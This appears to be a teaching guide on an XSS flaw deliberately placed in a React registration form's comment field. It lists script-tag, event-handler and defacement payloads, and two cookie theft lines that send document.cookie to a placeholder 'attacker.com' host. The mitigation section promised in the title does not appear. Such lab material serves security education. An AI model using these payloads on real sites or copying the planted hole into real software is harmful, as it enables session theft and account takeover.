 # XSS Vulnerability Exploitation and Mitigation Guide

## Overview
This guide demonstrates Cross-Site Scripting (XSS) vulnerabilities in a React registration form application, how to exploit them, and how to properly mitigate them.

## Vulnerabilities Introduced

### Comment Field XSS (Form Submission Triggered)
- **Location**: Comments textarea in registration form
- **Vulnerability**: Uses `dangerouslySetInnerHTML` to render user input AND executes XSS on form submission
- **Risk**: Stored XSS (if comments were saved to database) + Reflected XSS on submission
- **Trigger**: Form submission button click

## Exploitation

### How the XSS Works
1. User enters XSS payload in the comment field
2. Form validation passes (comment field has no validation)
3. When "Submit" button is clicked, the form checks for XSS indicators
4. If XSS detected, payload is executed immediately
5. Alert pops up showing the XSS payload

### Basic XSS Payloads

#### Script Tag Payloads
```javascript
<script>alert('XSS Detected!')</script>
<script>alert('Hacked!')</script>
<script>console.log('XSS executed')</script>
```

#### Event Handler Payloads
```javascript
<img src=x onerror="alert('XSS via Image Error')">
<svg onload="alert('XSS via SVG')">
<iframe onload="alert('XSS via iframe')">
```

#### Advanced Payloads
```javascript
<script>
document.body.innerHTML = '<h1 style="color:red">HACKED!</h1>';
</script>
```

### Cookie Theft Payloads
```javascript
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
<script>new Image().src="https://attacker.com/steal?cookie="+document.cookie;</script>
```
